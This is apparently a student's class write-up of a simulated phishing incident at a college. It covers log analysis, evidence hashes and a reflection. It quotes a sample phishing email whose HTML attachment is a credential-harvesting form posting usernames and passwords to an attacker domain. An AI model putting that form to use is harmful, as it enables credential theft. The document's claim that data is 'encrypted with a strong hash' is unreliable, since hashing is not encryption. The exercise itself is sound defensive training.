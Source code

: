 # My First-Hour Priorities
- Capture relevant information on access attempts, this can help us ascertain if repeated access attempts are malicious or accidental.
- Include times and IP addresses. These are good for building a narrative when documenting cases. 
- Capture devices and where they are accessing from, again this will help with figuring out intent. Having locations of device access can be helpful but may be reaching out of scope.
- Avoid capturing all information, just the minimum required as to not cross ethical and legal boundaries. 
- Capture relevant emails, looking at SPF, DKIM, and DMARCs along with the Message-ID. This helps when documenting information related to a case, especially in phishing or malicious email incidents.


# Incident & Evidence Notes 
- Incident HC-IR-1066

- 2025-09-11T13:45:00Z – Initial incident declared: Christian/Cybersecurity Analyst that was notified that an unauthenticated email was received by student Sam Rivera. Ticket was created with HC-IR-1066

- John Smith/Incident manager approved inspections of IdP logs and examine suspicious email under minimum-necessary evidence collection for +-15 minutes

- IdP logs examined for “sam.rivera”, multiple login attempts failed between two IP addresses: 203.0.113.88 and 203.0.113.175. MFA push failed along with password failed with unfamiliar sign in properties. The final attempt was successful @2025-09-11T13:14:03Z, account likely compromised. .eml file provided shows email failed SPF, DMARC, and DKIM resulted in a none. Attacker likely spoofing from 20250911.130738.ab12@smtp01.lowcost-mail.example as donotreply@blackboard.com. Linked registration was likely clicked by the student, allowing attacker access to the account. This is likely a mass phishing attempt. IdP logs show attempts from cloud VM, which lends credence to mass phishing attempts. 

- Evidence capture @ 2025-09-11T13:45:00Z under Week4_Phishing_Assignment_IdP_logs.csv – SHA-256: c52df5aa4ff5507ecf844a98edd42309d4266f41747bd09264b79f6047320769 and Week4_Phising_Assignment_Email.eml – SHA-256:b2e70976a832a7a5c1ef979042a3cdac4cbea710dbcd0e69eb405f2d258c2346These are useful documents showing the attacker attempts along versus sam.rivera logging in earlier, the .eml file shows how the phishing attack was spoofed to gain access. 

- Data is stored on the school server drive, accessed by Christian Ellefson and John Smith at 2025-09-11T13:45:00Z; transfer record kept.

- Redacted information would include student email, IP address, laptop name, and student name. Attacker IP addresses and approaches should be stored as future flags. 

- Risk evaluation: High, account should immediately be locked and laptop should be isolated from network until device is determined to be cleaned. Blackboard accounts and student email require new login credentials and password in conjunction with a new MFA. Potential computer wipe required but will be determined at a later date. Handoff to cybersecurity recovery team. 

**These notes are in response to an IdP for the in-class activity along with the Original Message for the example scam email, listed below:**


[UplReturn-Path: <donotreply@blackboard-mail.center>
Received: from mx1.hocking.example (10.12.34.20)
  by mailhub.hocking.example with ESMTP id 7B9E8A113
  for <sam.rivera@hocking.example>; Thu, 11 Sep 2025 13:07:43 +0000 (UTC)
Received: from smtp01.lowcost-mail.example (192.0.2.66)
  by mx1.hocking.example with ESMTPS id 7B9E8A112; Thu, 11 Sep 2025 13:07:43 +0000
Authentication-Results: mx1.hocking.example;
  spf=softfail smtp.mailfrom=donotreply@blackboard-mail.center;
  dkim=none;
  dmarc=fail (p=none) header.from=blackboard.com
From: "Blackboard Learn" <donotreply@blackboard.com>
Reply-To: "Events" <events@blackboard-mail.center>
To: Sam Rivera <sam.rivera@hocking.example>
Subject: one-hour prof dev webinar – registration file attached
Date: Thu, 11 Sep 2025 13:07:38 +0000
Message-ID: <20250911.130738.ab12@smtp01.lowcost-mail.example>
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary="bnd"

--bnd
Content-Type: text/plain; charset=UTF-8

Open the attached registration and confirm today.
--bnd
Content-Type: text/html; name="Registration.pdf.html"
Content-Disposition: attachment; filename="Registration.pdf.html"

<html><body><form method="POST" action="https://cdn-blackboard-mail.center/submit">
  <p>Sign in to complete registration</p>
  <input type="text" name="username"/>
  <input type="password" name="password"/>
  <input type="submit" value="Continue"/>
</form></body></html>
--bnd--
loading Week4_Phising_Assignment_Email.eml…]()

**IdP Logs Listed below for access attempt information**:

[IdP Logs.PDF](https://github.com/user-attachments/files/22316151/IdP.Logs.PDF)

**Activity Prompt:**

You are working in cybersecurity at Hocking College. An automated alert was triggered when an unauthenticated email message was delivered to student Sam Rivera. Standard procedure, per institutional policy, is to inspect IdP logs and examine the suspicious email under minimum-necessary evidence collection. The incident manager [John Smith] created a work ticket HC-IR-1066 at 2025-09-11T13:45:00Z and authorized inspections +-15 minutes from the time the suspicious email was received.



# Integrity & Privacy Controls 
Information gathered during an investigation should be encrypted with a strong hash, recommended SHA256 or higher, in order to safeguard PII, company information, and other sensitive data. Information should be stored on a secure server, with highly sensitive information being stored on an air gapped server or in a physically locked away copy. Redaction is important while also keeping an original, unedited copy. The redacted file should have all PII removed as to not be able to figure out who the employee is. 

# Evidence Links
[CYBR 2100 In-class activity Week 4.pdf](https://github.com/user-attachments/files/22316218/CYBR.2100.In-class.activity.Week.4.pdf)

[CYBR2100_Reflection_W04_EllefsonChristian.pdf](https://github.com/user-attachments/files/22316226/CYBR2100_Reflection_W04_EllefsonChristian.pdf)

# Reflection

There will likely always be trade-offs when it comes to collecting too much/too little data and the security methods we use. Collecting too much data can often lead to scope creep, where people will reach far beyond what is needed to accomplish an investigation and reach a verdict for a plan of action and recovery method. Collecting too little can lead to an inaccurate assessment, potentially not fixing the root issue and allowing for entire networks to be taken down or worse. Next time I will look at another approach with hopefully more experience to make what could be a potentially better decision if this wasn’t the exact correct response.

